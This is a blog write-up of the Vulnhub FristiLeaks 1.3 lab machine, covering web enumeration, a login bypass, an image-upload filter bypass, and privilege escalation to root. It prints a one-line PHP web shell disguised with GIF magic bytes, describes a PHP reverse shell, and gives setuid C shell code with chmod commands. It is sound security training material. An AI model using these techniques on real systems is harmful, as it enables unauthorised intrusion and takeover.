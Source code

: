 ```yaml
---
layout: post
title:  "FristiLeaks 1.3 Write-Up"
categories: [write-ups]
permalink: /write-ups/fristileaks_1.3_writeup/
---
```

FristiLeaks is an easy OSCP-like boot to root VM hosted on Vulnhub. The goal in this challenge is to obtain root in the box and read the flag.<br><br>
<h1>Port Scan</h1>
Normally, the first thing to do when dealing with Vulnhub machines is to scan the network (I use Nmap to do so) to find the IP of the vulnerable machine, 
but in this case the machine tells us its IP in the login prompt. 
<br>
![Port scan result](allPortsScan.png)

In the scan we can see that the only open port is 80, which usually is HTTP.
<br><br>
<h1>Port 80 Initial Enumeration</h1>
![Nmap output for port 80](port80Nmap.png)
In the Nmap output for port 80 using the default scripts we can see that robots.txt has three disallowed entries. Also, we can see that the webserver uses 
Apache httpd 2.2.15, PHP version 5.3.3 and the distribution is CentOS.
<br><br>
The root page of the web has nothing interesting at first glance, but there is this image which will be useful later.
![KeepCalm](KeepCalm.png)
Also, inside of the robots.txt file we can see the three disallowed entries.
![Robots file](robots.png)
All the disallowed entries have the same image saying "This is not the URL you were looking for" (I didn't get a screenshot of this). 
At this point I wasn't sure about what to do, as I didn't find any interesting vulnerabilities for the server and neither did both Nikto and gobuster.
<br>
Using a bit of guess work I found the directory fristi. All the entries in the robots.txt are drinks and, according to the image, fristi is also a drink. Maybe using a 
wordlist generated by CEWL and gobuster you can find the directory, but I didn't think about this when I was enumerating the box.
<br><br>
<h1>Fristi Directory</h1>
The index.php file of this directory is a login page which isn't vulnerable to SQLInjection (or at least I couldn't find it), but I found two different ways to
"bypass" it.<br>
<h2>First Method</h2> 
In the source code we can see some interesting comments.
![First commentary](fristiCom0.png) 
![Second commentary](fristiCom1.png)
![Third commentary](fristiCom2.png)
We get a possible username (eezeepz) inside of the first commentary and a base64 encoded image. If we decode it we can see that it is a PNG image.
![Decoding](decodeFristiImg.png)
![Decoded](decodedFristiImg.png)
Here we can guess that the user "eezeepz" has the password "keKkeKKeKKeKkEkkEk". A successful login redirects us to the "upload.php" page.
<br>
<h2>Second Method</h2>
Using gobuster with the .php extension we can find the "uploads" directory, which hasn't directory listing activated and "upload.php", which redirects us to the login page.
<br>
Intercepting the request to "upload.php" using BurpSuite we can see that there is more content below the redirection. If we rewrite the status code (302 FOUND) to 200 OK, we can see the upload page without knowing the credentials.
![BurpSuite request interception](burpIntercept.png) 
<br>
<h1>File Upload + RCE</h1>
The page only allows uploading images, but it can be bypassed easily. You just need to change the [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) to something that will be detected as an image, as well as using the correct extension.
<br>
I didn't try using the correct extension without changing the magic bytes, but it probably doesn't work. In my case, I used GIF87a as the magic bytes and created a really simple php shell to test if the RCE was possible.
{% highlight php %}GIF87a
#The echo is redundant, as system prints the output of the command executed.
<?php echo system($_REQUEST['cmd'])?> 
{% endhighlight %}
![Uploading of the shell](uploadShell.png)
![Correct upload](correctUpload.png)
This shell works pretty well, but it can't execute commands that need arguments (strangely, it works fine in my machine, hosting the shell using php -S localhost:8000).
<br>
To use it you just need to pass the command inside the cmd argument, it accepts both GET and POST requests. In my case, I executed the whoami command.
![Code execution](simpleRCE.png)
After I checked that the simple shell really worked, I uploaded a php reverse shell (the one inside /usr/share/webshells/php/php-reverse-shell.php on Kali) and set a listener on port 1234.
![Reverse shell](revShell.png)
<br>
<h1>Apache Shell</h1>
The first thing I did was upgrading the shell to a [more functional one](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/).
![Shell upgrade](upgradingShell.png)
Inside the "checklogin.php" file we can get the hardcoded mysql credentials, but we can only read the username and the password required to access the "upload.php" page.
![Creds](mysqlCreds.png)
Inside the file located at "/var/www/notes.txt" there is an interesting message.
![Notes.txt 1](notes1.png)
If we go to the "/home/eezeepz" directory we can see lots of uninteresting files and another notes.txt.
![Notes.txt 2](notes2.png)
Essentially this is saying that we can run commands as another user. I found two ways to exploit this, but I only used the easiest as the other one was too time consuming.
<h2>First Method (not used)</h2>
Looking inside the "/usr/bin/" directory we can see the gcc binary, so I created a pretty simple C shell that uses the "setuid()" system call to run as another user.<br>
My idea is to upload the file to the box (using the http.server module in python3 to serve the file), make the other user compile the shell and setting the SetUID bit, as well as giving execute permissions to others.<br>
The shell that I used was really simple for the sake of saving time, but I could have used a more interactive shell if it was necessary.
{% highlight C %}#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char** argv) {
        if (argc != 3) {
                printf("Usage: ./shell <command> <uid>  (no arguments for the command)\n");
                exit(0);
        }
        int uid = atoi(argv[2]);
        if (setuid(uid) < 0) {
                perror("Setuid\n");
                exit(1);
        }
        if (execl(argv[1], argv[1],(char*) NULL) < 0) {
                perror("Error executing command\n");
                exit(1);
        }
}
{% endhighlight %}
Inside the "/tmp/runthis" file I wrote the necessary commands to do this and I read the uid from the "/etc/passwd" file, which I'm not including because it's too large.
{% highlight bash %}/usr/bin/gcc /tmp/shell.c -o /tmp/shell
/home/admin/chmod u+s /tmp/shell
/home/admin/chmod o+x /tmp/shell
{% endhighlight %}
![Shell permissions](shellPermission.png)
![Execution](shellExecution.png)
<br>
<h2>Second Method + PrivEsc</h2>
We can read the "/home/admin/" directory if we change the permissions using the "/tmp/runit" file and the chmod command.<br>
Inside this directory there are two seemingly encrypted files (cryptedpass.txt and whoisyourgodnow.txt) and a python script which encrypts them (I didn't take a screenshot of this, I don't know why).
<br>
The python script only base64 encodes the supplied password, then it reverses it and finally it encrypts it using the ROT13 method. If we reverse these steps, we can read the plaintext password.
![Crypted pass](cryptedPass.png)
![Whogod pass](whogodPass.png)
The first picture has the unencrypted text inside of "cyptedpass.txt", while the second has the text inside "whoisyourgodnow.txt".<br>
LetThereBeFristi! (inside whoisyourgodnow.txt) is the password for the fristigod user.
<br><br>
<h1>Root PrivEsc</h1>
Executing the "sudo -l" command as user fristigod and supplying the "LetThereBeFristi!" password outputs this:
![sudo -l output](sudoL.png)
And if we check the "/var/fristigod/.secret_admin_stuff/" we can see that the doCom binary has the SetUid bit and is owned by root.
![ls /var/fristigod/.secret_admin_stuff/](ls_fristigod.png)
Using the "sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom" command we can check the usage of this binary, which allows us to run commands as root.
<br>
Running the "/bin/bash" command grants us an interactive shell as root and then we can read the flag inside "/root/fristileaks_secrets.txt".
![Root privesc](rootPrivEsc.png)
<br>
<h1>Conclusion</h1>
This is a fairly easy box, although I got stucked for while at the first part because I didn't guess that fristi was the correct directory.
<br>
I've learnt how to use the setuid() system call, which I think is pretty useful and that I need to take more screenshots before reporting.
